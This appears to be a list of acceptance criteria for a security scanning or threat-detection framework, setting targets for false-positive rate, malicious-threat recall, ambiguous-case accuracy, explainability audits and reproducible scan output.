1. **Zero False-Positive Invariant**: Category A benign benchmark produces exactly **0 `MALICIOUS` verdicts** ($\text{FPR} = 0.0\%$).
2. **$\ge 95\%$ Malicious Threat Recall**: Category B malicious benchmark achieves $\ge 95\%$ detection recall.
3. **$\ge 90\%$ Ambiguous Classification Accuracy**: Category C suspicious cases maintain $\ge 90\%$ appropriate classification.
4. **100% Explainability Compliance**: All generated findings pass the 8-question transparency audit.
5. **100% Deterministic Reproducibility**: 10 consecutive multi-threaded scans produce identical JSON finding ordering.
6. **Empirical Validation Statement**: Framework outputs a verified summary Markdown table with exact TP, FP, TN, FN, Precision, Recall, FPR, and DCI metrics.
